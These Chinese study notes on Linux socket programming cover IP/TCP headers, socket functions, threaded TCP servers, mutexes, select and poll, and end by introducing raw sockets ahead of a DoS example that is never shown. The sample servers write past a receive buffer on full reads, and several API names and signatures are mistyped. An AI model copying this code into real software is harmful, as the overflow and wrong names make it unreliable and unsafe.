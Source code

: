 * 网络通信三要素
- IP地址

- 端口号

- 传输协议


* tcp与ip首部格式
[[Network_Programing/IP_Header.jpg]]

[[Network_Programing/IP.gif]]

如图，一个刻度表示1个二进制位（比特）。
1-1.版本4位，表示版本号，目前最广泛的是4=B0100，即常说的IPv4；相信IPv6以后会广泛应用，它能给世界上每个纽扣都分配
       一个IP地址。

1-2.头长4位，数据包头部长度。它表示数据包头部包括多少个32位长整型，也就是多少个4字节的数据。无选项则为5（红色部分）。

1-3.服务类型，包括8个二进制位，每个位的意义如下：
       过程字段：3位，设置了数据包的重要性，取值越大数据越重要，取值范围为：0（正常）~ 7（网络控制）
       延迟字段：1位，取值：0（正常）、1（期特低的延迟）
       流量字段：1位，取值：0（正常）、1（期特高的流量）
       可靠性字段：1位，取值：0（正常）、1（期特高的可靠性）
       成本字段：1位，取值：0（正常）、1（期特最小成本）
       保留字段：1位 ，未使用
1-4.包裹总长16位，当前数据包的总长度，单位是字节。当然最大只能是65535，及64KB。

2-1.重组标识16位，发送主机赋予的标识，以便接收方进行分片重组。

2-2.标志3位，他们各自的意义如下：
       保留段位(2)：1位，未使用
       不分段位(1)：1位，取值：0（允许数据报分段）、1（数据报不能分段）
       更多段位(0)：1位，取值：0（数据包后面没有包，该包为最后的包）、1（数据包后面有更多的包）

2-3.段偏移量13位，与更多段位组合，帮助接收方组合分段的报文，以字节为单位。

3-1.生存时间8位，经常ping命令看到的TTL（Time To Live）就是这个，每经过一个路由器，该值就减一，到零丢弃。

3-2.协议代码8位，表明使用该包裹的上层协议，如TCP=6，ICMP=1，UDP=17等。

3-3.头检验和16位，是IPv4数据包头部的校验和。

4-1.源始地址，32位4字节，我们常看到的IP是将每个字节用点（.）分开，如此而已。

5-1.目的地址，32位，同上。

6-1.可选选项，主要是给一些特殊的情况使用，往往安全路由会当作攻击而过滤掉，普联（TP_LINK）的TL-ER5110路由就能这么做。

7-1.用户数据。

[[Network_Programing/TCP.gif]]

1-1.源始端口16位，范围当然是0-65535啦。

1-2.目的端口，同上。

2-1.数据序号32位，TCP为发送的每个字节都编一个号码，这里存储当前数据包数据第一个字节的序号。

3-1.确认序号32位，为了安全，TCP告诉接受者希望他下次接到数据包的第一个字节的序号。

4-1.偏移4位，类似IP，表明数据距包头有多少个32位。

4-2.保留6位，未使用，应置零。

4-3.紧急比特URG—当URG＝1时，表明紧急指针字段有效。它告诉系统此报文段中有紧急数据，应尽快传送(相当于高优先级的数据)。

4-3.确认比特ACK—只有当ACK＝1时确认号字段才有效。当ACK＝0时，确认号无效。参考TCP三次握手

4-4.复位比特RST(Reset) —当RST＝1时，表明TCP连接中出现严重差错（如由于主机崩溃或其他原因），必须释放连接，然后再重新建立运输连接。参考TCP三次握手

4-5.同步比特SYN—同步比特SYN置为1，就表示这是一个连接请求或连接接受报文。参考TCP三次握手

4-6.终止比特FIN(FINal)—用来释放一个连接。当FIN＝1时，表明此报文段的发送端的数据已发送完毕，并要求释放运输连接。

4-7.窗口字段16位，窗口字段用来控制对方发送的数据量，单位为字节。TCP连接的一端根据设置的缓存空间大小确定自己的接收窗口大小，然后通知对方以确定对方的发送窗口的上限。

5-1.包校验和16位，包括首部和数据这两部分。在计算检验和时，要在TCP报文段的前面加上12字节的伪首部。

5-2.紧急指针16位，紧急指针指出在本报文段中的紧急数据的最后一个字节的序号。

6-1.可选选项24位，类似IP，是可选选项。

6-2.填充8位，使选项凑足32位。

7-1.用户数据……


* linux套接字类型
- Socket
  - INET:  IPv4
  - INET6: IPv6
  - SOCK_STREAM
    - 流式套接字,提供面向连接,可靠的数据传输服务,数据按照字节流,按照顺序收发,保证数据在传输过程中无丢失,无冗余.TCP协议支持该套接字
  - SOCK_DGRAM
    - 数据报套接字,提供面向无连接的服务,数据收发无序,不能保证数据的准确到达.UDP协议支持该套接字
  - SOCK_RAW
    - 原始套接字.允许对低于传输层的协议或物理网络直接访问,例如可以接受和发送ICMP报.常用于检测新的协议

- TLI


* 套接字基础函数

** 字节排序函数
#+BEGIN_SRC c
#include <netinet/in.h>
uint16_t htons(uint16_t hosts);
//将16位的短整形数,从主机字节序转换为网络字节序
uint32_t htonl(uint32_t hostl);
//将32位的长整形数,从主机字节序转换为网络字节序
uint16_t ntohs(uint16_t nets);
//将16位的短整形数,从网络字节序转换为主机字节序
uint32_t ntohl(uint32_t netl);
//将16位的长整形数,从网络字节序转换为主机字节序

#+END_SRC

** 字节操纵函数
#+BEGIN_SRC c
#include <string.h>
void bzero(void *dest, size_t len);
//将目标中指定数目的字节置为0,经常用此函数来对套接字地址结构进行初始化
void bcopy(const void *src, void *dest, size_t len);
//将指定数目字节从源拷贝到目标
void bcmp(const void *src, void *dest, size_t len);
//比较源和目标两个字符串,若相同返回值为0,否则返回非0

void *memset(void *dest, int x, size_t len);
//将目标地址开始len个长度设为x
void *memcpy(void *dest, const void *src, size_t len);
//当源与目标重叠时, bcopy能够正确处理,而memcpy的操作结果不可知
int memcmp(const void *str1, const void *str2, size_t len);
//相同返回0,str1大于str2则返回大于0,否则小于0
#+END_SRC

** IP地址转换函数
#+BEGIN_SRC c
#include <arpa/inet.h>
in_addr_t inet_addr(const char *str);
//将字符串形式的IP地址转换成32位二进制的IP地址.str指向字符串形式的IP地址.这个函数不对IP地址的有效性进行验证,所有2^32个可能的二进制值都认为是有效的IP地址.该函数无法处理点分十进制的IP地址:255.255.255.255无法由此函数处理
int inet_aton(const char *str, struct in_addr *numstr);
//进行相同的转化.str指向字符串形式的IP地址,numstr指向转换后点分十进制的IP地址.成功返回1失败返回0
char *int_ntoa(struct in_addr inaddr);
//将一个32位网络字节序的二进制IP地址转换成相应的点分十进制IP地址.这个函数的参数是一个结构体.函数返回值所指向的串还在静态内存中,所以函数是不可重入的
以上函数只能处理IPv4

#include <arpa/inet.h>
//p代表地址的表达格式通常是ASCII字符串,n代表数值格式,是存在套接字地址结构中的二进制值.
//family参数是指操作的地址族,IPv4是AF_INET,IPv6是AF_INET6
int inet_pton(int family, const char *str, void *numstr);
//将str所指的字符串形式的IP地址,转换为网络字节序的二进制IP地址,并用指针numstr存储.成功返回1
const char *inet_ntop(int family, const void *numstr, char *str, size_t len);
//进行想法操作,将numstr所值的二进制IP地址转换成字符串形IP地址,并用指针str存储,参数len是目标的大小
#+END_SRC

** isfdtype函数
#+BEGIN_SRC c
#include <sys/stat.h>
int isfdtype(int fd, int fdtype);
//测试操作符fd是不是fdtype指定的类型.

#+END_SRC


* 网络字节序和主机字节序转换函数
见上


* 并发技术
- 进程
- 线程
- I/O多路复用


* 父进程先于子进程结束和晚于子进程结束差异
#+BEGIN_SRC
一个现有进程可以调用fork函数创建一个新进程。由fork创建的新进程被称为子进程（child process）。
fork函数被调用一次但返回两次。两次返回的唯一区别是子进程中返回0值而父进程中返回子进程ID。

1）父进程先于子进程终止

     当父进程先退出时，系统会让init进程接管子进程，该子线程成为了孤儿进程。

2）子进程先于父进程终止

    分为2种情况：

       a）正常情况：父进程调用了wait函数 （非父子进程则用waitpid函数），此时父进程会等待子进程结束。

       b）父进程又没有调用wait函数 （非父子进程则未调用waitpid函数），此种情况子进程进入僵死状态即僵尸进程，并且会一直保持下去直到系统重启。子进程处于僵死状态时，内核只保存进程的一些必要信息以备父进程所需。此时子进程始终占有着资源，同时也减少了系统可以创建的最大进程数。

    僵死状态：一个已经终止、但是其父进程尚未对其进行善后处理(获取终止子进程的有关信息，释放它仍占有的资源)的进程被称为僵死进程(zombie)。ps命令将僵死进程的状态打印为Z 。

#+END_SRC

* 僵尸进程
孤儿进程：一个父进程退出，而它的一个或多个子进程还在运行，那么那些子进程将成为孤儿进程。孤儿进程将被init进程(进程号为1)所收养，并由init进程对它们完成状态收集工作。

僵尸进程：一个进程使用fork创建子进程，如果子进程退出，而父进程并没有调用wait或waitpid获取子进程的状态信息，那么子进程的进程描述符仍然保存在系统中。这种进程称之为僵死进程。


* 多线程(tcp和udp) 并发服务器编程模板以及例程
** TCP

*** 相关函数

#+BEGIN_SRC c
#include <sys/types.h>
#include <sys/socket.h>

ssize_t recv(int sockfd, void *buf, size_t len, int flags);
#+END_SRC

*** 例子程序
Server:
#+BEGIN_SRC c
#include <stdio.h>
#include <stdlib.h>
#include <strings.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <pthread.h>

#define PORT 1234
#define BACKLOG 5
#define MAXDATASIZE 1000

void process_cli(int connfd, struct sockaddr_in client);
void *function(void *arg);
struct ARG {
    int connfd;
    struct sockaddr_in client;
};

void main ()
{
    int listenfd, connfd;
    pthread_t tid;
    struct ARG *arg;
    struct sockaddr_in server;
    struct sockaddr_in client;
    socklen_t len;
    if((listenfd = socket(AF_INET, SOCK_STREAM, 0)) == -1){
        perror("Creating socket failed.\n");
        exit(1);
    }

    int opt = SO_REUSEADDR;
    setsockopt(listenfd, SOL_SOCKET, SO_REUSEADDR, &opt, sizeof(opt));
    bzero(&server, sizeof(server));
    server.sin_family = AF_INET;
    server.sin_port = htons(PORT);
    server.sin_addr.s_addr = htonl(INADDR_ANY);
    if(bind(listenfd, (struct sockaddr *)&server, sizeof(server)) == -1){
        perror("Bind() error.\n");
        exit(1);
    }
    if(listen(listenfd, BACKLOG) == -1){
        perror("listen() error.\n");
    }
    len = sizeof(client);
    while(1){
        if((connfd = accept(listenfd, (struct sockaddr *)&client, &len)) == -1){
            perror("accept() error.\n");
            exit(1);
        }
        arg = (struct ARG*)malloc(sizeof(struct ARG));
        arg->connfd = connfd;
        memcpy((void *)&arg->client, &client, sizeof(client));
        if(pthread_create(&tid, NULL, function, (void*)arg)){
            perror("pthread_create error.\n");
            exit(1);
        }

    }
    close(listenfd);
}

void process_cli(int connfd, struct sockaddr_in client){
    int num;
    char recvbuf[MAXDATASIZE], sendbuf[MAXDATASIZE], cli_name[MAXDATASIZE];
    printf("You got a connection from %s.\n", inet_ntoa(client.sin_addr));
    num = recv(connfd, cli_name, MAXDATASIZE, 0);
    if(num == 0){
        close(connfd);
        printf("Client disconnected.\n");
        return;
    }
    cli_name[num - 1] = '\0';
    printf("Client's name is %s.\n", cli_name);
    while(num = recv(connfd, recvbuf, MAXDATASIZE, 0)){
        recvbuf[num] = '\0';

        printf("Received client(%s) message: %s\n", cli_name, recvbuf);
        int i;
        for(i = 0; i < num -1; i++){
            // if((recvbuf[i] >= 'a' && recvbuf[i] <='z')||(recvbuf[i] >= 'A'&& recvbuf[i] <= 'Z')){
            //     recvbuf[i] = recvbuf[i] + 3;
            //     if((recvbuf[i] >'Z' && recvbuf[i] <= 'Z'+3) || (recvbuf[i] > 'z')){
            //         recvbuf[i] = recvbuf[i] - 26;
                // }
            // }
            sendbuf[i] = recvbuf[i];
        }
        sendbuf[num - 1] = '\0';
        send(connfd, sendbuf, strlen(sendbuf), 0);

    }
    close(connfd);
}

void *function(void *arg){
    struct ARG *info;
    info = (struct ARG*)arg;
    process_cli(info->connfd, info->client);
    free(arg);
    pthread_exit(NULL);
}


#+END_SRC


** UDP

*** 相关函数

#+BEGIN_SRC c
#include <sys/types.h>
#include <sys/socket.h>

ssize_t recvfrom(int sockfd, void *buf, size_t len, int flags, struct sockaddr *from, size_t *addrlen);
ssize_t sendto(int sockfd, const void *buf, size_t len, int flags, const struct sockaddr *to, int addrlen);
#+END_SRC


* 线程基础函数

#+BEGIN_SRC c
#include <pthread.h>
int pthread_create(pthread_t *tid, const pthread_attr_t *attr, void *(func)(void *), viod *arg);
//如果新线程创建成功,参数tid返回新生成的线程ID.一个进程中的每个线程都由一个线程ID标识,其类型为pthread_t, attr指向线程属性指针.每个线程有很多属性.通常将attr的参数值设置为NULL,这时使用系统的默认属性.
//创建完线程后, 需要说明它将执行的函数.函数地址由func制定,该参数必须是个静态函数,它只有一个通用指针作为参数,并返回一个通用指针.该执行函数的调用参数是由arg指定,arg是一个通用指针,用于往func函数中传递参数.如果需要传递多个参数,必须将它们打包成一个结构,然后让arg指向该结构

int pthread_join(pthread_t tid, void **status);
//函数与进程的waitpid函数功能类似,等待一个线程终止
//参数tid指定所等待的线程ID.该函数必须指定要等待的线程,不能等待任一个线程结束.要求等待的线程必须是当前进程的成员,并且不是分离的线程或者守护线程.几个线程不能同时等待一个线程完成,如果其中一个成功调用pthread_jion函数,其他线程将返回ESRCH错误,如果等待的线程已经终止,则该函数立即返回.如果参数status指针非空,则指向终止线程的推出状态值.调用成功返回0

int pthread_detach(pthread_t tid);
//tid为要分离线程的ID,函数成功返回0

pthread_t pthread_self(void);
//函数返回调用函数的线程ID

void pthread_exit(void *status);
//函数用于终止当前线程,并返回状态值,如果当前线程是可联合的,则其推出状态将保留
#+END_SRC


* 分离线程

线程分为两类:可联合的和分离的,默认情况下线程都是可联合的.
可联合的线程终止时,其线程ID和终止状态将保留,直到线程调用pthread_jion函数.
而分离线程退出后,系统将释放其所有资源,其他线程不能等待其终止.如果一个线程需要知道另一个线程什么时候终止,最好保留第二个线程的可联合性.


* 互斥锁作用
在编程中，引入了对象互斥锁的概念，来保证共享数据操作的完整性。每个对象都对应于一个可称为" 互斥锁" 的标记，这个标记用来保证在任一时刻，只能有一个线程访问该对象。

** 例子程序

#+BEGIN_SRC c
#include <pthread.h>
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
int myglobal=0;
pthread_mutex_t mymutex=PTHREAD_MUTEX_INITIALIZER;
 void *thread_function(void *arg) {
  int i,j;
  for ( i=0; i<5; i++) {
    pthread_mutex_lock(&mymutex);
    j=myglobal;
    j=j+1;
    printf(".");
    fflush(stdout);
    sleep(1);
    myglobal=j;
    pthread_mutex_unlock(&mymutex);
  }
  return NULL;
}
int main(void) {
  pthread_t mythread;
  int i;
  if ( pthread_create( &mythread, NULL, thread_function, NULL) ) {
    printf("error creating thread.");
    abort();
  }
  for ( i=0; i<5; i++) {
    pthread_mutex_lock(&mymutex);
    myglobal=myglobal+1;
    pthread_mutex_unlock(&mymutex);
    printf("o");
    fflush(stdout);
    sleep(1);
  }
  if ( pthread_join ( mythread, NULL ) ) {
    printf("error joining thread.");
    abort();
  }
  printf("\nmyglobal equals %d\n",myglobal);
  exit(0);
}

#+END_SRC

* 多线程中传参数的几种方法有何差异
#+BEGIN_SRC c
//传递参数的普通方法
//封装在一个结构体中
void *start_routine(void *arg);
struct ARG {
    int connfd;
    int other;
}
    int main() {
        struct ARG *arg;
        …
            While(1){
            if((connfd = accept(sockfd,NULL,NULL))== -1){
                …
                    }
            arg.connfd = connfd;
            pthread_create(&tid, NULL, start_routine, (void *)&arg);
            …
                }
    }
void *start_routine(void *arg) {
    ARG info;
    info.connfd = ((ARG *)arg) -> connfd;
    info.other = ((ARG *)arg) -> other;
    …}
//优点:
//缺点:对一个客户可以工作,多个客户则出现问题

//通过指针传递参数

void *start_routine(void *arg);

void *start_routine(void *arg) {
    int connfd;
    connfd = (int)arg;
}

int main(void) {
    int connfd;
    //
    pthread_create(&tid, NULL, start_routine, (void *)connfd);
    //
}

//优点:简单
//缺点:arg类型必须能被正确的转换成通用指针,而且能传递的参数只有一个



//通过分配arg的空间来传递参数
//主线程首先为每个新线程分配arg的空间,再将arg传递给新线程使用,新线程使用完释放该空间
void *start_routine(void *arg);
int main(void) {
    struct ARG * arg;
    int connfd;
    …
        loop {
        …
            if((connfd = accept(sockfd,NULL,NULL))== -1){
                …
                    }
        arg = new ARG;
        arg -> connfd = connfd;
        pthread_create(&tid, NULL, start_routine, (void *)arg);
        …
            }
}
void *start_routine(void *arg) {
    struct ARG info;
    info.connfd = ((ARG *)arg) ->connfd;
    …
        /*handle client*/
        delete arg;
}
//优点:
//缺点:浪费空间


通过加锁等同步设施来实现传递参数

pthread_mutex_lock(pthread_mutex_t  *mptr);

/* 返回：成功0，否则返回错误码 */
/* mptr：指向互斥锁的指针。 */
/* 该函数接受一个指向互斥锁的指针作为参数并将其锁定。如果互斥锁已经被锁定，调用者将进入睡眠状态。函数返回时，将唤醒调用者。 */
/* 如果互斥锁是静态分配的，就将mptr初始化为常值PTHREAD_MUTEX_INITIALIZER。  */

pthread_mutex_unlock(pthread_mutex_t  *mptr);
//用于互斥锁解锁操作。

/* 返回：成功0，否则返回错误码 */


#+END_SRC


* 线程安全性TSD编程例程

** 例子程序
Server:

#+BEGIN_SRC c

#include <stdio.h>
#include <stdlib.h>
#include <strings.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <pthread.h>

#define PORT 1234
#define BACKLOG 5
#define MAXDATASIZE 1000

void process_cli(int connfd, struct sockaddr_in client);
void savedata_r(char* recvbuf, int len, char* cli_data);
void *function(void *arg);
struct ARG {
    int connfd;
    struct sockaddr_in client;
};

pthread_key_t key;
pthread_once_t once = PTHREAD_ONCE_INIT;

static void destructor(void *ptr){
    free(ptr);
}

static void createkey_once(void){
    pthread_key_create(&key, destructor);
}

struct ST_DATA{
    int index;
};


void main ()
{
    int listenfd, connfd;
    pthread_t tid;
    struct ARG *arg;
    struct sockaddr_in server;
    struct sockaddr_in client;
    socklen_t len;
    if((listenfd = socket(AF_INET, SOCK_STREAM, 0)) == -1){
        perror("Creating socket failed.\n");
        exit(1);
    }

    int opt = SO_REUSEADDR;
    setsockopt(listenfd, SOL_SOCKET, SO_REUSEADDR, &opt, sizeof(opt));
    bzero(&server, sizeof(server));
    server.sin_family = AF_INET;
    server.sin_port = htons(PORT);
    server.sin_addr.s_addr = htonl(INADDR_ANY);
    if(bind(listenfd, (struct sockaddr *)&server, sizeof(server)) == -1){
        perror("Bind() error.\n");
        exit(1);
    }
    if(listen(listenfd, BACKLOG) == -1){
        perror("listen() error.\n");
    }
    len = sizeof(client);
    while(1){
        if((connfd = accept(listenfd, (struct sockaddr *)&client, &len)) == -1){
            perror("accept() error.\n");
            exit(1);
        }
        arg = (struct ARG*)malloc(sizeof(struct ARG));
        arg->connfd = connfd;
        memcpy((void *)&arg->client, &client, sizeof(client));
        if(pthread_create(&tid, NULL, function, (void*)arg)){
            perror("pthread_create error.\n");
            exit(1);
        }

    }
    close(listenfd);
}

void process_cli(int connfd, struct sockaddr_in client){
    int num;
    char cli_data[MAXDATASIZE];
    char recvbuf[MAXDATASIZE], sendbuf[MAXDATASIZE], cli_name[MAXDATASIZE];
    char tbuf[MAXDATASIZE];
    printf("You got a connection from %s.\n", inet_ntoa(client.sin_addr));
    num = recv(connfd, cli_name, MAXDATASIZE, 0);
    if(num == 0){
        close(connfd);
        printf("Client disconnected.\n");
        return;
    }

    cli_name[num - 1] = '\0';
    printf("Client's name is %s.\n", cli_name);
    while(num = recv(connfd, recvbuf, MAXDATASIZE, 0)){
        //recvbuf[num - 1] = '\0';

        printf("Received client(%s) message: %s\n", cli_name, recvbuf);
        savedata_r(recvbuf, num, cli_data);
        int i = 0;
        tbuf[num] = '\0';
        for(i = 0; i < num; i++)
        {
            tbuf[num-i-1] = recvbuf[i];
        }
        //printf("\nnum:%d\n", num);
        //printf("\ntbuf:%s\n", tbuf);

        send(connfd, tbuf, strlen(tbuf), 0);

    }
    close(connfd);
    printf("Client(%s) closed connfd connection.\n User's data:%s.\n", cli_name, cli_data);
}

void *function(void *arg){
    struct ARG *info;
    info = (struct ARG*)arg;
    process_cli(info->connfd, info->client);
    free(arg);
    pthread_exit(NULL);
}

void savedata_r(char* recvbuf, int len, char* cli_data){
    struct ST_DATA* data;
    pthread_once(&once, createkey_once);
    if((data = (struct ST_DATA*)pthread_getspecific(key)) == NULL){
        data = (struct ST_DATA*)malloc(sizeof(struct ST_DATA));
        pthread_setspecific(key, data);
        data->index = 0;
    }
    int i = 0;
    while (i < len - 1){
        cli_data[data->index++] = recvbuf[i];
        i++;
    }
    cli_data[data->index] = '\0';
    printf("%s.\n", cli_data);
}
#+END_SRC


* I/O复用技术和相关函数
- 阻塞I/O
- 非阻塞I/O
- I/O复用
- 信号驱动I/O(同步I/O)
- 异步I/O

** 相关函数
*** select
#+BEGIN_SRC c
  #include <sys/select.h>
  #include <sys/time.h>
  int select(int maxfdp, fd_set *readset, fd_set *writeset, fd_set *execepset, const struct timeval *timeout);

  struct timeval{
      long tv_sec;
      long tv_usec;
  };
  /*
    timeval 结构可以提供秒数,毫秒数成员.
    这个timeval有三种可能
    永远等待下去:仅在有一个描述字准备好I/O时才返回,因此我们可以将参数timeout设置为空指针
    等待固定时间:在有一个描述字准备好I/O时才返回,但不超过由timeout参数所指定timeval结构中指定的秒数和微秒数
    根本不用等待:检查描述字后立即返回,这称为轮询
    在前两种情况的等待中,如果进程捕获了一个人信号,并从信号处理程序返回,那么等待一般被中断.
    参数readset,writeset和execpset指定让内核测试读,写,异常条件的描述字.如果不感兴趣,可将其设置为NULL

    select函数使用描述字集为参数readset(writeset或execptset)指定多个描述字.描述字集是一个整数数组,每个数中的每一个对应于一个描述字,例如32位整数,则数组的第一个元素对应0-31描述字,第二个元素对应于32-63描述字.下面介绍下面几个描述字的宏
  ,*/

  void FD_ZERO(fd_set *fdset); //将所有位设为0
  void FD_SET(int fd, fd_set *fdset); //将fd位设为1
  void FD_CLR(int fd, fd_set *fdset); //将fd位设为0
  int FD_ISSET(int fd, fd_set *fdset); //检测fd位是否为1

  //example
  fd_set fdset; //声明fdset
  FD_ZERO(&fdset); //初始化fdset
  FD_SET(1, &fdset); //将fd为1的描述字设为1
  FD_SET(2, &fdset); //将fd为2的描述字设为1
  FD_CLR(3, &fdset); //将fd为3的描述字设为0
#+END_SRC

*** shutdown
以前终止连接的方式是调用close函数,该函数并不进行真正的四分组终止序列,而是将描述字的访问次数减1,仅在此计数为0的时候才关闭套接字,发送TCP的正常连接终止序列,在此close有两个限制可以由本节介绍的函数shutdown来避免
- close将描述字的访问次数减1,仅在此计数为0的时候才关闭套接字.用shutdown可以激发TCP的正常连接终止序列,而不管访问计数.
- close终止了数据传输的两个方向:读和写,由于TCP是全双工的,有很多时候,要通知另一端已经完成了数据发送,即使那一端仍有许多数据要发送也是如此.shutdown函数可以仅仅关闭连接的读,写或两个方向都关闭

#+BEGIN_SRC c
#include <sys/socket.h>
int shutdown(int sockfd, int howto);
/*
返回0成功
sockfd为要关闭的套接口描述字
howto为以下常值:
SHUT_RD:关闭连接读的这一半,不再接受套接口中的数据,而留在套接口接受缓冲区中的数据都作废.进程不再能够对套接字执行任何读函数.调用此函数后,TCP套接口接受的任何数据都被确认,但数据本身扔掉
SHUT_WD:关闭连接写的这一半,在TCP场合下,这种情况称为半关闭(half_close).当前留在套接口发送缓冲区的数据都被发送,后跟正常的TCP连接终止序列,进程不能再执行对套接口的任何写函数.
*/

#+END_SRC

*** poll

#+BEGIN_SRC c
  #include <poll.h>
  int poll(struct pollfd *fdarray, unsigned long nfds, int timeout);
  //返回准备好的描述字个数, 0---超时, 1---出错
  /*
  第一个参数是指向结构数组第一个元素的指针,每个数组的元素都是一个pollfd结构,它规定了为测试一给定描述字fd的一些条件.下面是polled结构的源码
  ,*/
  struct pollfd{
      int fd;
      short events;
      shortevent;
  };

  /*
  要测试的条件由成员events规定,函数在相应的revents成员中返回描述字的状态(每个描述字有两个变量,一个为调用值,一个为结果,以此避免使用值-结果参数.回想一下,函数select的中间三个参数都是值-结果参数).这两个成员中的每一个都由指定某个条件的一位或多位组成.下面列出了用于指定标志位events并测试标志位revents的一些常值:
  POLLIN: 普通或优先级带数据可读,revent&events
  POLLRDNORN: 普通数据可读,revent&events
  ROLLRDBAD: 优先级带数据可读,revent&events
  POLLPRI: 高优先级带数据可读,revent&events
  POLLOUT: 普通或优先级带数据可写,revent&events
  POLLWRNORM: 普通数据可写,revent&events
  POLLWRBAND: 优先级带数据可写,revent&events
  POLLERR: 发生错误,revents
  POLLHUP: 发生挂起,revents
  POLLNVAL: 套接字不是一个打开的文件,revents
  其中,前4个常值是处理套接口输入的,中间3个是处理输出的,而最后3个是处理错误的,因此只能在revents中返回.在流设备中,将数据分为普通,优先级,高优先级3种.

  对于TCP和UDP套接口,将引起poll返回的revents具体化:
  所有正规TCP数据和UDP数据都被认为是普通数据
  TCP的带外数据被认为是优先级带数据
  当TCP连接的读的这一半关闭时,(例如收到一个FIN),这也认为是普通数据,且后续的读操作将返回0.TCP连接存在错误既可认为是普通数据,也可认为是POLLERR错误.无论那种情况,后续读操作将返回-1,并设置error,这就是处理了诸如接收RST或者超时等条件
  在监听套接口上新连接的可用性既可认为是普通数据,也可认为是优先级数据,大多数实现都将其做为普通数据考虑

  而第二个参数,结构数组中元素的个数是由参数nfds来规定的,参数timeout同select中timeout功能一样,指定函数返回前等待多少时间
  大于0,等待知道数目的时间
  等于0,立即返回,不阻塞
  INFTIM,永远等待
  ,*/

#+END_SRC


* 非阻塞IO工作模式

阻塞I/O和非阻塞I/O的区别: 应用程序的调用是否立即返回


* 同步io 与异步io

同步io
- 阻塞I/O
- 非阻塞I/O
- I/O复用
- 信号驱动I/O

异步io
- 异步I/O

同步I/O和异步I/O的区别在于: 数据访问的时候是否阻塞


* 域名解析相关函数

** gethostbyname
#+BEGIN_SRC c
#include <netdb.h>
struct hostent *gethostbyname(const char *hostname)
#+END_SRC
该函数如果执行成功就返回一个指向结构hostent的指针,如果失败返回空指针
#+BEGIN_SRC c
  #include <netdb.h>
  struct hostent {
      char *h_name; // 主机的正式名称
      char **h_aliases; // 主机的别名列表
      int h_addrtype; //主机地址类型
      int h_length; //主机地址长度
      char **h_addr_list; //主机IP地址列表
  };
  #define haddr h_addr_list[0] // 在列表中的第一个地址

#+END_SRC


* 获取本地址和远程地址方法


** gethostname
#+BEGIN_SRC c
gethostname(char *name, size_t namelen)
#+END_SRC
返回当前主机的名字,name是指向主机名存储位置的指针,namelen是此数组的大小



* 原始套接字作用以及创建方式
基于原始套接字编程

在开发面向连接的TCP和面向无连接的UDP程序时，我们所关心的核心问题在于数据收发层面，数据的传输特性由TCP或UDP来保证：

[SOCK_RAW/raw_1.jpg]

也就是说，对于TCP或UDP的程序开发，焦点在Data字段，我们没法直接对TCP或UDP头部字段进行赤裸裸的修改，当然还有IP头。换句话说，我们对它们头部操作的空间非常受限，只能使用它们已经开放给我们的诸如源、目的IP，源、目的端口等等。

今天我们讨论一下原始套接字的程序开发，用它作为入门协议栈的进阶跳板太合适不过了。OK闲话不多说，进入正题。

原始套接字的创建方法也不难：socket(AF_INET, SOCK_RAW, protocol)。

重点在protocol字段，这里就不能简单的将其值为0了。在头文件netinet/in.h中定义了系统中该字段目前能取的值，注意：有些系统中不一定实现了netinet/in.h中的所有协议。源代码的linux/in.h中和netinet/in.h中的内容一样。

[SOCK_RAW/raw_2.jpg]

我们常见的有IPPROTO_TCP，IPPROTO_UDP和IPPROTO_ICMP，在博文“(十六)洞悉linux下的Netfilter&iptables：开发自己的hook函数【实战】(下) ”中我们见到该protocol字段为IPPROTO_RAW时的情形，后面我们会详细介绍。

用这种方式我就可以得到原始的IP包了，然后就可以自定义IP所承载的具体协议类型，如TCP，UDP或ICMP，并手动对每种承载在IP协议之上的报文进行填充。接下来我们看个最著名的例子DOS攻击的示例代码，以便大家更好的理解如何基于原始套接字手动去封装我们所需要TCP报文。

先简单复习一下TCP报文的格式，因为我们本身不是讲协议的设计思想，所以只会提及和我们接下来主题相关的字段，如果想对TCP协议原理进行深入了解那么《TCP/IP详解卷1》无疑是最好的选择。

[SOCK_RAW/raw_3.jpg]

我们目前主要关注上面着色部分的字段就OK了，接下来再看看TCP3次握手的过程。TCP的3次握手的一般流程是：

